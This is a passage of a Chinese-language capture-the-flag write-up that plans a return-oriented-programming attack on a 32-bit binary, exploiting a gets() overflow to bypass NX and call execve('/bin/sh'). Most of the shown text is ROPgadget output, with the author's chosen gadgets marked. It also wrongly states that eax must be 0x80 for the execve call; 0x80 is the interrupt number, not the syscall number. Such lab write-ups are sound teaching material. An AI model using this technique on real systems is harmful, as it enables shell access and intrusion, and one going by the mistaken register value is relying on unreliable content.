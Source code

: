         ![12](https://raw.githubusercontent.com/AiDaiP/images/master/pwn/12.png)
    
        ![13](https://raw.githubusercontent.com/AiDaiP/images/master/pwn/13.png)
    
        gets处可以溢出
    
        利用gadgets绕过NX，考虑调用execve()
    
        调用execve()需要使%eax = 0x80，还需要第一个参数%ebx指向/bin/sh的地址，第二个参数%ecx和第三个参数%edx为0。
    
        找gadgets
    
        ```assembly
        #ROPgadget --binary rop --only 'pop|ret' | grep 'eax'
        0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
        0x080bb196 : pop eax ; ret
        0x0807217a : pop eax ; ret 0x80e
        0x0804f704 : pop eax ; ret 3
        0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
        
        #选择0x080bb196 : pop eax ; ret
        ```
    
        ```assembly
        0x0809dde2 : pop ds ; pop ebx ; pop esi ; pop edi ; ret
        0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
        0x0805b6ed : pop ebp ; pop ebx ; pop esi ; pop edi ; ret
        0x0809e1d4 : pop ebx ; pop ebp ; pop esi ; pop edi ; ret
        0x080be23f : pop ebx ; pop edi ; ret
        0x0806eb69 : pop ebx ; pop edx ; ret
        0x08092258 : pop ebx ; pop esi ; pop ebp ; ret
        0x0804838b : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
        0x080a9a42 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x10
        0x08096a26 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x14
        0x08070d73 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0xc
        0x0805ae81 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 4
        0x08049bfd : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 8
        0x08048913 : pop ebx ; pop esi ; pop edi ; ret
        0x08049a19 : pop ebx ; pop esi ; pop edi ; ret 4
        0x08049a94 : pop ebx ; pop esi ; ret
        0x080481c9 : pop ebx ; ret
        0x080d7d3c : pop ebx ; ret 0x6f9
        0x08099c87 : pop ebx ; ret 8
        0x0806eb91 : pop ecx ; pop ebx ; ret
        0x0806336b : pop edi ; pop esi ; pop ebx ; ret
        0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
        0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
        0x0806eb68 : pop esi ; pop ebx ; pop edx ; ret
        0x0805c820 : pop esi ; pop ebx ; ret
        0x08050256 : pop esp ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
        0x0807b6ed : pop ss ; pop ebx ; ret
        
        #选择0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
        ```
